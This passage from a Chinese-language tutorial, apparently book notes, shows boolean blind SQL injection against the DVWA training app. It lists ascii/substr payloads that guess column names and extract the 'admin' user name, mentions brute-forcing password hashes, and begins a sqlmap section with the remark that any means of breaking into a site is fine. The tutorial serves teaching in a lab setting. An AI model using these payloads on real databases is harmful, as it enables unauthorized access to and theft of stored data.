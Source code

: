 第一条返回结果：

![image-20230405130157461](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405130157461.png)

第二、三条返回结果：

![image-20230405130224887](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405130224887.png)

以此类推，后面得到的字段长度为
7,10,9,4,8,6,10,12

接下来就是猜字段名字

```
payload：
1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1,1))=117 #

1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),1,1))=102 #

```

返回结果：

![image-20230405130516339](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405130516339.png)

以此类推，第二个字段名为first_name

后续的字段名可以使用相同的方法进行猜测，分别为user_id,first_name,last_name,user,password,avater,last_login,falied_login

#### 猜测字段内的具体内容

```
payload：
1' and ascii(substr((select user from dvwa.users limit 0,1),1,1))=97 #
```

猜测user列下的第一个字符，显示结果为exists，说明为a

后续类似，最终结果为admin

password字段存放的为加密后的数据，所以不好进行猜测，必须通过加密特征来猜测密码算法，对可能的密码算法进行尝试暴力破解，如果使用的密码算法过于复杂，短时间内不能破解，那就，别管了。

---

### SQL injection Blind Middle

#### 使用sqlmap进行盲注

调整安全级别

![image-20230530085942693](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530085942693.png)

首先抓取数据包，使用sqlmap可以达到事半功倍的效果，只要能攻破网站，什么手段都可以

![image-20230530084521671](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530084521671.png)
